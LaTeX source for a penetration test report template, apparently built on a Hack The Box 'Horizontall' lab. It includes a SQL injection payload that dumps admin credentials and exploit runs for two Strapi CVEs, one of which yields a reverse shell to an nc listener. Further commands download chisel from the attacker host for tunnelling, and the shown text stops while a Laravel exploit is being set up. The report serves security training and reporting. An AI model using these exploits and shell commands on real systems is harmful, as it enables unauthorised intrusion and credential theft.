% Options for packages loaded elsewhere
\PassOptionsToPackage{unicode}{hyperref}
\PassOptionsToPackage{hyphens}{url}
\PassOptionsToPackage{dvipsnames,svgnames*,x11names*}{xcolor}
%
\documentclass[
  english,
  oneside]{article}
\usepackage{lmodern}
\usepackage{amssymb,amsmath}
\usepackage{ifxetex,ifluatex}
\ifnum 0\ifxetex 1\fi\ifluatex 1\fi=0 % if pdftex
  \usepackage[T1]{fontenc}
  \usepackage[utf8]{inputenc}
  \usepackage{textcomp} % provide euro and other symbols
\else % if luatex or xetex
  \usepackage{unicode-math}
  \defaultfontfeatures{Scale=MatchLowercase}
  \defaultfontfeatures[\rmfamily]{Ligatures=TeX,Scale=1}
\fi
% Use upquote if available, for straight quotes in verbatim environments
\IfFileExists{upquote.sty}{\usepackage{upquote}}{}
\IfFileExists{microtype.sty}{% use microtype if available
  \usepackage[]{microtype}
  \UseMicrotypeSet[protrusion]{basicmath} % disable protrusion for tt fonts
}{}
\makeatletter
\@ifundefined{KOMAClassName}{% if non-KOMA class
  \IfFileExists{parskip.sty}{%
    \usepackage{parskip}
  }{% else
    \setlength{\parindent}{0pt}
    \setlength{\parskip}{6pt plus 2pt minus 1pt}}
}{% if KOMA class
  \KOMAoptions{parskip=half}}
\makeatother
\usepackage{xcolor}
\IfFileExists{xurl.sty}{\usepackage{xurl}}{} % add URL line breaks if available
\IfFileExists{bookmark.sty}{\usepackage{bookmark}}{\usepackage{hyperref}}
\hypersetup{
  pdftitle={Penetration Test Report},
  pdfauthor={Marmeus},
  pdflang={en},
  pdfsubject={Pentesting report},
  pdfkeywords={Pentesting, vulnerabilities, report, Marmeus},
  colorlinks=true,
  linkcolor=gray,
  filecolor=Maroon,
  citecolor=Blue,
  urlcolor=blue,
  pdfcreator={LaTeX via pandoc}}
\urlstyle{same} % disable monospaced font for URLs
\usepackage{color}
\usepackage{fancyvrb}
\newcommand{\VerbBar}{|}
\newcommand{\VERB}{\Verb[commandchars=\\\{\}]}
\DefineVerbatimEnvironment{Highlighting}{Verbatim}{commandchars=\\\{\}}
% Add ',fontsize=\small' for more characters per line
\newenvironment{Shaded}{}{}
\newcommand{\AlertTok}[1]{\textcolor[rgb]{1.00,0.00,0.00}{\textbf{#1}}}
\newcommand{\AnnotationTok}[1]{\textcolor[rgb]{0.38,0.63,0.69}{\textbf{\textit{#1}}}}
\newcommand{\AttributeTok}[1]{\textcolor[rgb]{0.49,0.56,0.16}{#1}}
\newcommand{\BaseNTok}[1]{\textcolor[rgb]{0.25,0.63,0.44}{#1}}
\newcommand{\BuiltInTok}[1]{#1}
\newcommand{\CharTok}[1]{\textcolor[rgb]{0.25,0.44,0.63}{#1}}
\newcommand{\CommentTok}[1]{\textcolor[rgb]{0.38,0.63,0.69}{\textit{#1}}}
\newcommand{\CommentVarTok}[1]{\textcolor[rgb]{0.38,0.63,0.69}{\textbf{\textit{#1}}}}
\newcommand{\ConstantTok}[1]{\textcolor[rgb]{0.53,0.00,0.00}{#1}}
\newcommand{\ControlFlowTok}[1]{\textcolor[rgb]{0.00,0.44,0.13}{\textbf{#1}}}
\newcommand{\DataTypeTok}[1]{\textcolor[rgb]{0.56,0.13,0.00}{#1}}
\newcommand{\DecValTok}[1]{\textcolor[rgb]{0.25,0.63,0.44}{#1}}
\newcommand{\DocumentationTok}[1]{\textcolor[rgb]{0.73,0.13,0.13}{\textit{#1}}}
\newcommand{\ErrorTok}[1]{\textcolor[rgb]{1.00,0.00,0.00}{\textbf{#1}}}
\newcommand{\ExtensionTok}[1]{#1}
\newcommand{\FloatTok}[1]{\textcolor[rgb]{0.25,0.63,0.44}{#1}}
\newcommand{\FunctionTok}[1]{\textcolor[rgb]{0.02,0.16,0.49}{#1}}
\newcommand{\ImportTok}[1]{#1}
\newcommand{\InformationTok}[1]{\textcolor[rgb]{0.38,0.63,0.69}{\textbf{\textit{#1}}}}
\newcommand{\KeywordTok}[1]{\textcolor[rgb]{0.00,0.44,0.13}{\textbf{#1}}}
\newcommand{\NormalTok}[1]{#1}
\newcommand{\OperatorTok}[1]{\textcolor[rgb]{0.40,0.40,0.40}{#1}}
\newcommand{\OtherTok}[1]{\textcolor[rgb]{0.00,0.44,0.13}{#1}}
\newcommand{\PreprocessorTok}[1]{\textcolor[rgb]{0.74,0.48,0.00}{#1}}
\newcommand{\RegionMarkerTok}[1]{#1}
\newcommand{\SpecialCharTok}[1]{\textcolor[rgb]{0.25,0.44,0.63}{#1}}
\newcommand{\SpecialStringTok}[1]{\textcolor[rgb]{0.73,0.40,0.53}{#1}}
\newcommand{\StringTok}[1]{\textcolor[rgb]{0.25,0.44,0.63}{#1}}
\newcommand{\VariableTok}[1]{\textcolor[rgb]{0.10,0.09,0.49}{#1}}
\newcommand{\VerbatimStringTok}[1]{\textcolor[rgb]{0.25,0.44,0.63}{#1}}
\newcommand{\WarningTok}[1]{\textcolor[rgb]{0.38,0.63,0.69}{\textbf{\textit{#1}}}}
\usepackage{longtable,booktabs}
% Correct order of tables after \paragraph or \subparagraph
\usepackage{etoolbox}
\makeatletter
\patchcmd\longtable{\par}{\if@noskipsec\mbox{}\fi\par}{}{}
\makeatother
% Allow footnotes in longtable head/foot
\IfFileExists{footnotehyper.sty}{\usepackage{footnotehyper}}{\usepackage{footnote}}
\makesavenoteenv{longtable}
\usepackage{graphicx}
\makeatletter
\def\maxwidth{\ifdim\Gin@nat@width>\linewidth\linewidth\else\Gin@nat@width\fi}
\def\maxheight{\ifdim\Gin@nat@height>\textheight\textheight\else\Gin@nat@height\fi}
\makeatother
% Scale images if necessary, so that they will not overflow the page
% margins by default, and it is still possible to overwrite the defaults
% using explicit options in \includegraphics[width, height, ...]{}
\setkeys{Gin}{width=\maxwidth,height=\maxheight,keepaspectratio}
% Set default figure placement to htbp
\makeatletter
\def\fps@figure{htbp}
\makeatother
\setlength{\emergencystretch}{3em} % prevent overfull lines
\providecommand{\tightlist}{%
  \setlength{\itemsep}{0pt}\setlength{\parskip}{0pt}}
\setcounter{secnumdepth}{-\maxdimen} % remove section numbering
\ifxetex
  % Load polyglossia as late as possible: uses bidi with RTL langages (e.g. Hebrew, Arabic)
  \usepackage{polyglossia}
  \setmainlanguage[]{english}
\else
  \usepackage[shorthands=off,main=english]{babel}
\fi

\title{Penetration Test Report}
\usepackage{etoolbox}
\makeatletter
\providecommand{\subtitle}[1]{% add subtitle to \maketitle
  \apptocmd{\@title}{\par {\large #1 \par}}{}{}
}
\makeatother
\subtitle{Demo company assessment}
\author{Marmeus}
\date{2021-04-20}

\begin{document}
\maketitle

\listoffigures
\hypertarget{confidential-statement}{%
\section{Confidential statement}\label{confidential-statement}}

This document is the exclusive property of
\texttt{\textless{}CLIENT\ COMPANY\ NAME\textgreater{}} and
\texttt{\textless{}NAME\ OF\ ASSESSING\ COMPANY\textgreater{}}
containing sensitive, privileged, and confidential information.
Precautions should be taken to protect the confidentiality against
duplication, redistribution or use, avoiding reputational damage to
\texttt{\textless{}CLIENT\ COMPANY\ NAME\textgreater{}} or facilitating
attacks against \texttt{\textless{}CLIENT\ COMPANY\ NAME\textgreater{}}.

\texttt{\textless{}NAME\ OF\ ASSESSING\ COMPANY\textgreater{}} shall not
be liable for any damages that the use of this information may cause.

\hypertarget{disclaimer}{%
\section{Disclaimer}\label{disclaimer}}

The service/s performed to the client are considered a snapshot in time
of \texttt{\textless{}CLIENT\ COMPANY\ NAME\textgreater{}}'s
environment. The findings and recommendations reflect the information
gathered during the assessment and not any changes or modifications made
outside of that period.

Finally, note that this assessment may not disclose all vulnerabilities
present on the systems within the scope of the engagement that could
appear in the future. This report contains the findings from a specific
point-in-time made on
\texttt{\textless{}CLIENT\ COMPANY\ NAME\textgreater{}}' s environment.

\hypertarget{executive-summary}{%
\section{Executive summary}\label{executive-summary}}

\hypertarget{synopsis}{%
\subsection{Synopsis}\label{synopsis}}

\emph{\texttt{\textless{}NAME\ OF\ ASSESSING\ COMPANY\textgreater{}} was
hired by \texttt{\textless{}CLIENT\ COMPANY\ NAME\textgreater{}} to
provide the service/s of \texttt{\textless{}SERVICE/S\textgreater{}} to
specific systems. When performing the
\texttt{\textless{}SERVICE\textgreater{}}, there ware several alarming
vulnerabilities that were identified in the company's
network.\texttt{\textless{}NAME\ OF\ ASSESSING\ COMPANY\textgreater{}}
was able to extract all the data from a public database and perform
Remote Code Execution through the web application.}

\hypertarget{observed-security-strengths}{%
\subsection{Observed security
strengths}\label{observed-security-strengths}}

{[}\ldots{]}

\hypertarget{overall-risk-rating}{%
\subsection{Overall Risk rating}\label{overall-risk-rating}}

\emph{The overall risk identified to
\texttt{\textless{}CLIENT\ COMPANY\ NAME\textgreater{}} as a result of
thH penetration test is \textcolor{High}{High}. This rating implies an
ELEVATED risk of security controls being compromised with the potential
for material financial losses, based on two high-risk and several medium
vulnerabilities.}

\hypertarget{technical-report}{%
\section{Technical report}\label{technical-report}}

\hypertarget{scope}{%
\subsection{Scope}\label{scope}}

The scope for the \textbf{footprinting} phase was all the
\texttt{\textless{}CLIENT\ COMPANY\ NAME\textgreater{}} public
information that a user could find on the Internet.

The scope for the \textbf{pentesting} and vulnerability assessment
services were the following systems:

\begin{itemize}
\tightlist
\item
  10.129.167.200
\item
  127.0.0.1
\end{itemize}

\hypertarget{footprinting}{%
\subsection{Footprinting}\label{footprinting}}

In this section, a number of items should be written up to show the
CLIENT the extent of public and private information available through
the execution of the Information gathering phase. The information could
be classified ad:

\begin{itemize}
\tightlist
\item
  Passive
\item
  Active
\item
  Corporate
\item
  Personal
\end{itemize}

\hypertarget{vulnerability-assessment}{%
\subsection{Vulnerability assessment}\label{vulnerability-assessment}}

\hypertarget{union-sql-injection}{%
\subsubsection{Union SQL Injection}\label{union-sql-injection}}

\begin{longtable}[]{@{}ll@{}}
\toprule
\endhead
\textbf{Status} & Active\tabularnewline
\textbf{Criticality} & \textcolor{Critical}{Critical}\tabularnewline
\textbf{CVSS Base Score} & 10
AV:N/AC:L/PR:N/UI:N/S:C/C:H/I:H/A:H\tabularnewline
\textbf{Category} & Web\tabularnewline
\textbf{Vulnerability ID} & WEB\_001\tabularnewline
\textbf{Assets} & 127.0.01\tabularnewline
\bottomrule
\end{longtable}

\hypertarget{description}{%
\paragraph{Description}\label{description}}

SQL injection (SQLi) is a web security vulnerability that allows an
attacker to interfere with the queries that an application makes to its
database by adding a string of malicious code to a database query.

\hypertarget{impact}{%
\paragraph{Impact}\label{impact}}

An attacker can obtain, modify and delete any information stored in the
database.

\hypertarget{proof-of-concept}{%
\paragraph{Proof of Concept}\label{proof-of-concept}}

By changing the value of the id parameter with
\texttt{-1\ UNION\ (SELECT\ 1,2,3)}, we can insert values that will be
later shown on the server's response.

\begin{figure}
\centering

\includegraphics{Images/image-20220423165201295.png}
\caption{UNION SQLi}
\end{figure}

Finally, it was possible to obtain the admin's credentials with the
following payload.

\begin{Shaded}
\begin{Highlighting}[]
\ExtensionTok{http}\NormalTok{://localhost/index.php?id={-}1\%20UNION\%20(SELECT\%20id,\%20email,\%20password\%20from\%20users\%20where\%20id=1)}
\end{Highlighting}
\end{Shaded}

\begin{figure}
\centering

\includegraphics[width=2.60417in,height=\textheight]{Images/image-20220423165719395.png}
\caption{Admin credentials}
\end{figure}

\hypertarget{mitigations}{%
\paragraph{Mitigations}\label{mitigations}}

\texttt{\textless{}NAME\ OF\ ASSESSING\ COMPANY\textgreater{}}
recommends patching the vulnerability by using prepared SQL statements
with parameterized queries, user input validation and enforcing the
principle of least privilege.

\hypertarget{references}{%
\paragraph{References}\label{references}}

\url{https://cheatsheetseries.owasp.org/cheatsheets/SQL_Injection_Prevention_Cheat_Sheet.html}

\newpage

\hypertarget{pentesting}{%
\subsection{Pentesting}\label{pentesting}}

\hypertarget{enumeration}{%
\subsubsection{Enumeration}\label{enumeration}}

First of all, a port scan with \textbf{Nmap} was performed on the host
to obtain the available services.

\begin{Shaded}
\begin{Highlighting}[]
\ExtensionTok{kali@kali}\NormalTok{:\textasciitilde{}/Documents/HTB/Horizontall$ sudo nmap {-}sS {-}p{-} {-}n {-}T5 {-}oN AllPorts.txt 10.129.167.200}
\ExtensionTok{Nmap}\NormalTok{ scan report for 10.129.167.200}
\ExtensionTok{Host}\NormalTok{ is up (0.11s latency)}\ExtensionTok{.}
\ExtensionTok{Not}\NormalTok{ shown: 65533 closed ports}
\ExtensionTok{PORT}\NormalTok{   STATE SERVICE}
\ExtensionTok{22/tcp}\NormalTok{ open  ssh}
\ExtensionTok{80/tcp}\NormalTok{ open  http}

\CommentTok{\# Nmap done at Mon Aug 30 09:06:45 2021 {-}{-} 1 IP address (1 host up) scanned in 176.68 seconds}
\end{Highlighting}
\end{Shaded}

Then, a deeper scan of each opened port was performed, getting more
information about each service.

\begin{Shaded}
\begin{Highlighting}[]
\ExtensionTok{kali@kali}\NormalTok{:\textasciitilde{}/Documents/HTB/Horizontall$ sudo nmap {-}sC {-}sV {-}n {-}T5 {-}oN PortsDepth.txt {-}p 22,80 10.129.167.200}
\ExtensionTok{Nmap}\NormalTok{ scan report for 10.129.167.200}
\ExtensionTok{Host}\NormalTok{ is up (0.11s latency)}\ExtensionTok{.}

\ExtensionTok{PORT}\NormalTok{   STATE SERVICE VERSION}
\ExtensionTok{22/tcp}\NormalTok{ open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.5 (Ubuntu Linux}\KeywordTok{;} \ExtensionTok{protocol}\NormalTok{ 2.0)}
\KeywordTok{|} \ExtensionTok{ssh{-}hostkey}\NormalTok{: }
\KeywordTok{|}   \ExtensionTok{2048}\NormalTok{ ee:77:41:43:d4:82:bd:3e:6e:6e:50:cd:ff:6b:0d:d5 (RSA)}
\KeywordTok{|}   \ExtensionTok{256}\NormalTok{ 3a:d5:89:d5:da:95:59:d9:df:01:68:37:ca:d5:10:b0 (ECDSA)}
\KeywordTok{|}\ExtensionTok{\_}\NormalTok{  256 4a:00:04:b4:9d:29:e7:af:37:16:1b:4f:80:2d:98:94 (ED25519)}
\ExtensionTok{80/tcp}\NormalTok{ open  http    nginx 1.14.0 (Ubuntu)}
\KeywordTok{|}\ExtensionTok{\_http{-}server{-}header}\NormalTok{: nginx/1.14.0 (Ubuntu)}
\KeywordTok{|}\ExtensionTok{\_http{-}title}\NormalTok{: Did not follow redirect to http://horizontall.htb}
\ExtensionTok{Service}\NormalTok{ Info: OS: Linux}\KeywordTok{;} \ExtensionTok{CPE}\NormalTok{: cpe:/o:linux:linux\_kernel}
\end{Highlighting}
\end{Shaded}

The nmap output provides us with the domain \texttt{horizontall.htb},
adding this to the \texttt{/etc/hosts} we have access to the web page.

\begin{figure}
\centering

\includegraphics{Images/image-20210830151941478.png}
\caption{Horizontall Web page}
\end{figure}

Looking for virtual hosts on the web server with \textbf{gobuster} a new
virtual host was found.

\begin{Shaded}
\begin{Highlighting}[]
\ExtensionTok{kali@kali}\NormalTok{:\textasciitilde{}/Documents/HTB/Horizontall$ gobuster vhost {-}o subdomains.txt {-}t 40 {-}w //usr/share/wordlists/SecLists/Discovery/DNS/./subdomains{-}top1million{-}110000.txt {-}u http://horizontall.htb/}
\NormalTok{===============================================================}
\ExtensionTok{Gobuster}\NormalTok{ v3.1.0}
\ExtensionTok{by}\NormalTok{ OJ Reeves (@TheColonial) }\KeywordTok{\&} \ExtensionTok{Christian}\NormalTok{ Mehlmauer (@firefart)}
\NormalTok{===============================================================}
\NormalTok{[}\ExtensionTok{+}\NormalTok{] Url:          http://horizontall.htb/}
\NormalTok{[}\ExtensionTok{+}\NormalTok{] Method:       GET}
\NormalTok{[}\ExtensionTok{+}\NormalTok{] Threads:      40}
\NormalTok{[}\ExtensionTok{+}\NormalTok{] Wordlist:     //usr/share/wordlists/SecLists/Discovery/DNS/./subdomains{-}top1million{-}110000.txt}
\NormalTok{[}\ExtensionTok{+}\NormalTok{] User Agent:   gobuster/3.1.0}
\NormalTok{[}\ExtensionTok{+}\NormalTok{] Timeout:      10s}
\NormalTok{===============================================================}
\ExtensionTok{2021/08/30}\NormalTok{ 09:16:41 Starting gobuster in VHOST enumeration mode}
\NormalTok{===============================================================}
\ExtensionTok{Found}\NormalTok{: api{-}prod.horizontall.htb (Status: 200) [}\ExtensionTok{Size}\NormalTok{: 413]}
\end{Highlighting}
\end{Shaded}

Accessing the virtual host a welcome message is received.

\begin{figure}
\centering

\includegraphics{Images/image-20210830152050622.png}
\caption{api-prod.horizontall.htb}
\end{figure}

With further enumeration, the following directories were obtained.

\begin{Shaded}
\begin{Highlighting}[]
\ExtensionTok{kali@kali}\NormalTok{:\textasciitilde{}/Documents/HTB/Horizontall$ gobuster dir {-}w /usr/share/wordlists/dirbuster/directory{-}list{-}2.3{-}medium.txt {-}k {-}x php,html,txt,doc {-}t 40 {-}o GoBuster.txt {-}u http://api{-}prod.horizontall.htb/}
\NormalTok{===============================================================}
\ExtensionTok{Gobuster}\NormalTok{ v3.1.0}
\ExtensionTok{by}\NormalTok{ OJ Reeves (@TheColonial) }\KeywordTok{\&} \ExtensionTok{Christian}\NormalTok{ Mehlmauer (@firefart)}
\NormalTok{===============================================================}
\NormalTok{[}\ExtensionTok{+}\NormalTok{] Url:          http://api{-}prod.horizontall.htb/}
\NormalTok{[}\ExtensionTok{+}\NormalTok{] Method:       GET}
\NormalTok{[}\ExtensionTok{+}\NormalTok{] Threads:      40}
\NormalTok{[}\ExtensionTok{+}\NormalTok{] Wordlist:     /usr/share/wordlists/dirbuster/directory{-}list{-}2.3{-}medium.txtxt}
\NormalTok{[}\ExtensionTok{+}\NormalTok{] User Agent:   gobuster/3.1.0}
\NormalTok{[}\ExtensionTok{+}\NormalTok{] Timeout:      10s}
\NormalTok{===============================================================}
\ExtensionTok{2021/08/30}\NormalTok{ 09:16:41 Starting gobuster in VHOST enumeration mode}
\NormalTok{===============================================================}
\ExtensionTok{/index.html}\NormalTok{           (Status: 200) [}\ExtensionTok{Size}\NormalTok{: 413]}
\ExtensionTok{/reviews}\NormalTok{              (Status: 200) [}\ExtensionTok{Size}\NormalTok{: 507]}
\ExtensionTok{/users}\NormalTok{                (Status: 403) [}\ExtensionTok{Size}\NormalTok{: 60]}
\ExtensionTok{/admin}\NormalTok{                (Status: 200) [}\ExtensionTok{Size}\NormalTok{: 854]}
\ExtensionTok{/robots.txt}\NormalTok{           (Status: 200) [}\ExtensionTok{Size}\NormalTok{: 121]}
\end{Highlighting}
\end{Shaded}

Inside the \texttt{/admin} directory there is an \textbf{strapi}
\href{http://api-prod.horizontall.htb/admin/auth/login}{login} page.

\begin{figure}
\centering

\includegraphics{Images/image-20210830234316362.png}
\caption{Strapi login page}
\end{figure}

With the following command, we can check the \textbf{strapi} version for
a later CVE search.

\begin{Shaded}
\begin{Highlighting}[]
\ExtensionTok{kali@kali}\NormalTok{:\textasciitilde{}/Documents/HTB/Horizontall$ curl http://api{-}prod.horizontall.htb/admin/strapiVersion}\KeywordTok{;} \BuiltInTok{echo}
\DataTypeTok{\{"strapiVersion":"3.0.0{-}beta.17.4"\}}
\end{Highlighting}
\end{Shaded}

\hypertarget{exploitation}{%
\subsubsection{Exploitation}\label{exploitation}}

Looking on google there is a
\href{https://thatsn0tmysite.wordpress.com/2019/11/15/x05/}{post} about
how to exploit the
\href{https://cve.mitre.org/cgi-bin/cvename.cgi?name=2019-18818}{\textbf{CVE-2019-18818}},
resetting the administration password knowing the admin's email.

\begin{Shaded}
\begin{Highlighting}[]
\ExtensionTok{kali@kali}\NormalTok{:\textasciitilde{}/Documents/HTB/Horizontall$ python3 CVE{-}2019{-}18818.py admin@horizontall.htb http://api{-}prod.horizontall.htb 1234}
\NormalTok{[}\ExtensionTok{*}\NormalTok{] Detected version(GET /admin/strapiVersion)}\BuiltInTok{:}\NormalTok{ 3.0.0{-}beta.17.4}
\NormalTok{[}\ExtensionTok{*}\NormalTok{] Sending password reset request...}
\NormalTok{[}\ExtensionTok{*}\NormalTok{] Setting new password...}
\NormalTok{[}\ExtensionTok{*}\NormalTok{] Response:}
\ExtensionTok{b}\StringTok{\textquotesingle{}\{"jwt":"eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJpZCI6MywiaXNBZG1pbiI6dHJ1ZSwiaWF0IjoxNjMwMzQ}
\StringTok{0Nzc4LCJleHAiOjE2MzI5MzY3Nzh9.mv0KdDw8j9uoekrJgXRf0a4KqBb8F1rrW59J1tttmdQ","user":\{"id":3, "username":"admin","email":"admin@horizontall.htb","blocked":null\}\}\textquotesingle{}}
\end{Highlighting}
\end{Shaded}

In order to obtain a reverse shell, another CVE is needed, looking on
google again web appears this
\href{https://raw.githubusercontent.com/dasithsv/CVE-2019-19609/main/exploit.py}{exploit}
for the \textbf{CVE-2019-19609}.

Putting it all together, a reverse shell as ``strapi'' can be obtained.

\begin{Shaded}
\begin{Highlighting}[]
\ExtensionTok{kali@kali}\NormalTok{:\textasciitilde{}/Documents/HTB/Horizontall$ python exploit.py api{-}prod.horizontall.htb 10.10.14.82 eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJpZCI6MywiaXNBZG1pbiI6dHJ1ZSwiaWF0IjoxNjMwMzQ0Nzc4LCJleHAiOjE2}
\ExtensionTok{MzI5MzY3Nzh9.mv0KdDw8j9uoekrJgXRf0a4KqBb8F1rrW59J1tttmdQ}\NormalTok{ http://api{-}prod.horizontall.htb/}

\ExtensionTok{Strapi}\NormalTok{ Framework Vulnerable to Remote Code Execution {-} CVE{-}2019{-}19609}
\ExtensionTok{please}\NormalTok{ set up a listener on port 9001 before running the script. you will get a shell to that listener}


\ExtensionTok{kali@kali}\NormalTok{:\textasciitilde{}/Documents/HTB/Horizontall$ nc {-}nlvp 9001}
\ExtensionTok{listening}\NormalTok{ on [any] 9001 ...}
\ExtensionTok{connect}\NormalTok{ to [10.10.14.82] from (UNKNOWN) [}\ExtensionTok{10.129.167.200}\NormalTok{] 37538}
\ExtensionTok{/bin}\NormalTok{/sh: }\ExtensionTok{0}\NormalTok{: can}\StringTok{\textquotesingle{}t access tty; job control turned off}
\StringTok{$ id}
\StringTok{uid=1001(strapi) gid=1001(strapi) groups=1001(strapi)}
\end{Highlighting}
\end{Shaded}

\hypertarget{post-exploitation---privilege-escalation}{%
\subsubsection{Post-Exploitation - Privilege
Escalation}\label{post-exploitation---privilege-escalation}}

Enumerating the machine, there are some services running on
\textbf{localhost}.

\begin{Shaded}
\begin{Highlighting}[]
\ExtensionTok{strapi@horizontall}\NormalTok{:\textasciitilde{}/myapi$ netstat {-}putona}
\ExtensionTok{Active}\NormalTok{ Internet connections (servers and established)}
\ExtensionTok{Proto}\NormalTok{ Recv{-}Q Send{-}Q Local Address           Foreign Address         State       PID/Program name     Timer}
\ExtensionTok{tcp}\NormalTok{        0      0 127.0.0.1:8000          0.0.0.0:*               LISTEN      {-}                    off (0.00/0/0)}
\ExtensionTok{tcp}\NormalTok{        0      0 127.0.0.1:3306          0.0.0.0:*               LISTEN      {-}                    off (0.00/0/0)}
\ExtensionTok{tcp}\NormalTok{        0      0 0.0.0.0:80              0.0.0.0:*               LISTEN      {-}                    off (0.00/0/0)}
\ExtensionTok{tcp}\NormalTok{        0      0 0.0.0.0:22              0.0.0.0:*               LISTEN      {-}                    off (0.00/0/0)}
\ExtensionTok{tcp}\NormalTok{        0      0 127.0.0.1:1337          0.0.0.0:*               LISTEN      1845/node /usr/bin/  off (0.00/0/0)}
\end{Highlighting}
\end{Shaded}

In order to access the localhost listening ports,
\href{https://github.com/jpillora/chisel/releases/download/v1.7.6/chisel_1.7.6_linux_amd64.gz}{chisel}
was used to do \textbf{port forwarding}.

\begin{Shaded}
\begin{Highlighting}[]
\ExtensionTok{kali@kali}\NormalTok{:\textasciitilde{}/UTILS$ ./chisel server {-}p 4444 {-}{-}reverse}
\ExtensionTok{2021/08/30}\NormalTok{ 14:45:18 server: Reverse tunnelling enabled}
\ExtensionTok{2021/08/30}\NormalTok{ 14:45:18 server: Fingerprint MUXg3S3pARA8Rd3hCfsGhdHH8RWZUiVY3d6TaBACa7s=}
\ExtensionTok{2021/08/30}\NormalTok{ 14:45:18 server: Listening on http://0.0.0.0:4444}
\ExtensionTok{2021/08/30}\NormalTok{ 14:46:21 server: session\#1: tun: proxy\#R:8000=}\OperatorTok{\textgreater{}}\NormalTok{localhost:8000: Listening}

\ExtensionTok{strapi@horizontall}\NormalTok{:/tmp$ wget 10.10.14.82/chisel}
\ExtensionTok{strapi@horizontall}\NormalTok{:/tmp$ chmod +x chisel}
\ExtensionTok{strapi@horizontall}\NormalTok{:/tmp$ ./chisel client 10.10.14.82:4444 R:8000:localhost:8000}
\ExtensionTok{2021/08/30}\NormalTok{ 19:23:19 client: Connecting to ws://10.10.14.82:4444}
\end{Highlighting}
\end{Shaded}

Now, it is possible to access the \textbf{laravel} web page.

\begin{figure}
\centering

\includegraphics{Images/image-20210830215341207.png}
\caption{Laravel web page}
\end{figure}

Looking exploits for Laravel v8 appears the vulnerability
\textbf{CVE-2021-3129} with the following
\href{https://raw.githubusercontent.com/ambionics/laravel-exploits/main/laravel-ignition-rce.py}{exploit}.
Nonetheless, the library
\textbf{\href{https://github.com/ambionics/phpggc}{PHPGGC}} is needed to
create a payload. In this case, the payload obtains a file from the
system.

\begin{Shaded}
\begin{Highlighting}[]
\ExtensionTok{kali@kali}\NormalTok{:\textasciitilde{}/Documents/HTB/Horizontall$ git clone https://github.com/ambionics/phpggc.git}
\ExtensionTok{Cloning}\NormalTok{ into }\StringTok{\textquotesingle{}phpggc\textquotesingle{}}\NormalTok{...}
\ExtensionTok{remote}\NormalTok{: Enumerating objects: 2504, done.}
\ExtensionTok{remote}\NormalTok{: Counting objects: 100\% (846/846), }\KeywordTok{done}\ExtensionTok{.}
